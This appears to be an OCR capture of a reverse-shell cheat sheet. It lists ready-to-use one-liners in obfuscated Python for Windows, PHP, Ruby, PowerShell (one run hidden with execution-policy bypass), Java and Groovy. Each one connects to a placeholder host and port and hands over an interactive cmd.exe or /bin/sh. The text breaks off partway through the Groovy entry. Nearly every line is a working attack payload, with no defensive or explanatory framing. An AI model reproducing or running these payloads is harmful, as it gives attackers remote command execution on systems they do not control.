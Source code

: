 ```
║ Windows only ║ C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('xxx', yyy)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
╚══════════════╩════════════════════════════════════

╔PHP════════════════════════════════════════════════
║ php -r '$sock=fsockopen("xxx",yyy);exec("/bin/sh -i <&3 >&3 2>&3");'
╚═══════════════════════════════════════════════════

╔RUBY═══════════════════════════════════════════════
║ ruby -rsocket -e 'c=TCPSocket.new("xxx","yyy");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
╚═══════════════════════════════════════════════════

╔POWERSHELL═════════════════════════════════════════
║ powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("xxx",yyy);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
╠═══════════════════════════════════════════════════
║ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('xxx',yyy);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
╚═══════════════════════════════════════════════════

╔JAVA═══════════════════════════════════════════════
║ r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/xxx/yyy;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
╚═══════════════════════════════════════════════════
╔JAVA for GROOVY════════════════════════════════════
║ String host="xxx";
int port=yyy;
String cmd="cmd.exe";
```